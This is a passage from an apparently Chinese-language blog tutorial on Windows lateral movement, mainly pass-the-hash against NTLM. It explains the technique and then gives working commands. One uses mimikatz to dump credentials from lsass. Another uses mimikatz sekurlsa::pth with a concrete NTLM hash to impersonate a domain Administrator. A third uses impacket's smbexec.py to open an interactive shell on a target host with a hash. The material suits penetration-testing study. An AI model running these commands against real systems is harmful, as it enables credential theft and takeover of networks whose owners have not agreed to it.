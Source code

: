 执行Get-PSSession来查看已经获取的shell

### Evil-Winrm

项目地址：https://github.com/Hackplayers/evil-winrm

需要ruby环境

## 哈希传递(PTH)攻击

哈希传递是一种针对NTLM协议的攻击技术，在NTLM身份认证的第三步生成Response时，直接使用hash值进行计算，代替使用明文密码.(简单提一嘴，kerberos使用ticket进行验证)

### 为什么要使用pth

+ 目标主机在win server 2012之后，lsass.exe进程中是抓不到明文密码的
+ hash并不好破解

### 简单了解hash

Windows操作系统经常使用两种方法对用户的明文密码进行加密处理。在域环境中，用户信息存储在ntds.dit中，加密后为散列值。

 Windows操作系统中的密码一般由两部分组成，一部分为LMHash，另一部分为NTLM Hash。在windows中，Hash的结构通常如下

username:RID:LM-HASH:NT-HASH

### PTH的利用

+ 利用mimikatz进行pth

上传mimikatz至跳板机目录下，执行以下命令抓取hash

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```

![DC-ntlm-hash](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/DC-ntlm-hash.png)

利用mimikatz,使用抓取到的NTLM哈希进行PTH攻击

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:hack.com /ntlm:c17336b6c2ea715e02e8bbd04c91e543" exit
```

![mimikatz-file-dir](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/mimikatz-file-dir.png)

攻击后会开启一个cmd命令行，能够在该命令行中访问DC主机的CIFS服务

+ 利用impacket进行PTH

impacket提供的几个横向脚本基本都可以使用hash进行传递，例如smbexec.py,psexec.py,wmiexec.py,以smbexec.py为例，执行脚本传递hash获取一个交互式的shell

```python
python smbexec.py -hashes  :c17336b6c2ea715e02e8bbd04c91e543 hack.com/Administrator@192.168.30.10
#python smbexec.py -hashes LM HASH:NTLM HASH <domain>/<username>@<IP>
```
